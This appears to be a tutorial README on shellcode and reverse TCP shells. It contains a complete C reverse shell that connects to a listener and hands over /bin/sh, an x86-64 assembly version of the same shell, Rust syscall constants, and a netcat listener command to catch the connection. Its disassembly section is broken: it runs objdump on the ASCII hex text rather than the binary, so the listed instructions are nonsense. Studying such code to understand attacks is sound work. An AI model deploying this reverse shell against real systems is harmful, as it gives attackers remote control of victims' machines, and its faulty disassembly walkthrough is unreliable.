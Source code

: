 # Shellcode

The shellcode is the the raw code executed into a machine by a memory exploit. Shellcode is written in assembly, what makes it hard to understand. It's the most powerful way to do it but it's not practical, hard to code, hard to debug and it's not portable across architectures.

This is an example of some shellcode:

```
488d35140000006a01586a0c5a4889c70f056a3c5831ff0f05ebfe68656c6c6f20776f726c640a
```

For understanding it, write it to a file:

```
$ echo '488d35140000006a01586a0c5a4889c70f056a3c5831ff0f05ebfe68656c6c6f20776f726c640a' > shellcode.bin
```
"Disassmbly" the file:

```
$ objdump -D -b binary -mi386 -Mx86-64 -Mintel shellcode.bin
```

This will be the final translated output:

```asm
shellcode.bin:     file format binary


Disassembly of section .data:

00000000 <.data>:
   0:	34 38                	xor    al,0x38
   2:	38 64 33 35          	cmp    BYTE PTR [rbx+rsi*1+0x35],ah
   6:	31 34 30             	xor    DWORD PTR [rax+rsi*1],esi
   9:	30 30                	xor    BYTE PTR [rax],dh
   b:	30 30                	xor    BYTE PTR [rax],dh
   d:	30 36                	xor    BYTE PTR [rsi],dh
   f:	61                   	(bad)  
  10:	30 31                	xor    BYTE PTR [rcx],dh
  12:	35 38 36 61 30       	xor    eax,0x30613638
  17:	63 35 61 34 38 38    	movsxd esi,DWORD PTR [rip+0x38383461]        # 0x3838347e
  1d:	39 63 37             	cmp    DWORD PTR [rbx+0x37],esp
  20:	30 66 30             	xor    BYTE PTR [rsi+0x30],ah
  23:	35 36 61 33 63       	xor    eax,0x63336136
  28:	35 38 33 31 66       	xor    eax,0x66313338
  2d:	66 30 66 30          	data16 xor BYTE PTR [rsi+0x30],ah
  31:	35 65 62 66 65       	xor    eax,0x65666265
  36:	36 38 36             	ss cmp BYTE PTR [rsi],dh
  39:	35 36 63 36 63       	xor    eax,0x63366336
  3e:	36 66 32 30          	ss data16 xor dh,BYTE PTR [rax]
  42:	37                   	(bad)  
  43:	37                   	(bad)  
  44:	36 66 37             	ss data16 (bad) 
  47:	32 36                	xor    dh,BYTE PTR [rsi]
  49:	63 36                	movsxd esi,DWORD PTR [rsi]
  4b:	34 30                	xor    al,0x30
  4d:	61                   	(bad)  
  4e:	0a                   	.byte 0xa
```


# Reverse TCP

The first thing that we should know is that a reverse TCP shellcode establishes a TCP connection to a server, creates a shell into the victim's computer and redirects the STDOUT functions to the TCP, this allows the attacker to have access into the victim's machine.

# C Reverse TCP

This is an example of a reverse shell client written in C: 

```c
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <unistd.h>

  void main() {
    
    int sock = socket(AF_INET, SOCK_STREAM, 0);
    
    struct sockaddr_in sin;
    
    sin.sin_family = AF_INET;
    sin.sin_port = htons(8042);
    
    inet_pton(AF_INET, "127.0.0.1", &sin.sin_addr.s_addr);
    connect(sock, (struct sockaddr *)&sin, sizeof(struct sockaddr_in));

    dup2(sock, STDIN_FILENO);
    dup2(sock, STDOUT_FILENO);
    dup2(sock, STDERR_FILENO);

    char *argv[] = {"/bin/sh", NULL};
    execve(argv[0], argv, NULL);
}
```
This is a simple TCP reverse shell working in UNIX systems, for trying it you can just compile and run it, don't forget using a server as NC for accepting the incoming connections.

```sh
gcc main.c -o reversetcp

./reversetcp
```

# Tanslated to ASM

This is the same code but translated to ASM x86_64.

```asm
; Same C code but written in ASM x86-64.
 
xor rdx, rdx
mov rsi, 1
mov rdi, 2
mov rax, 41
syscall

push 0x0100007f ; 127.0.0.1 == 0x7f000001
mov bx, 0x6a1f ; 8042 = 0x1f6a
push bx
mov bx, 0x2
push bx
mov rsi, rsp
mov rdx, 0x10
mov rdi, rax
push rax
mov rax, 42
syscall
pop rdi
mov rsi, 2
mov rax, 0x21
syscall
dec rsi
mov rax, 0x21
syscall
dec rsi
mov rax, 0x21
syscall
push 0x68732f
push 0x6e69622f
mov rdi, rsp
xor rdx, rdx
push rdx
push rdi
mov rsi, rsp
mov rax, 59
syscall
```

This is a good example for why is important to use higher level languajes.

# Final code in Rust

In the Rust code the first thing we have to do is defining our shellcode variables.

```rs
const PORT: u16 = 0x6A1F; // 8042
const IP: u32 = 0x0100007f; // 127.0.0.1

const SYS_DUP2: usize = 33;
const SYS_SOCKET: usize = 41;
const SYS_CONNECT: usize = 42;
const SYS_EXECVE: usize = 59;
const AF_INET: usize = 2;
const SOCK_STREAM: usize = 1;
const IPPROTO_IP: usize = 0;
const STDIN: usize = 0;
const STDOUT: usize = 1;
const STDERR: usize = 2;
```
We also gotta use some structures coded in the C program such as the sockaddr_in structure.
And define the main functions.

# Try and Run

For running the Reverse-TCP client:

```
rustc main.rs
```

And as server we will be using Netcat, preintalled in many Linux systems.

```
nc -vlnp 8042
```

{local_ip}:8042 - You can change the port for receiving the connection in anotherone.

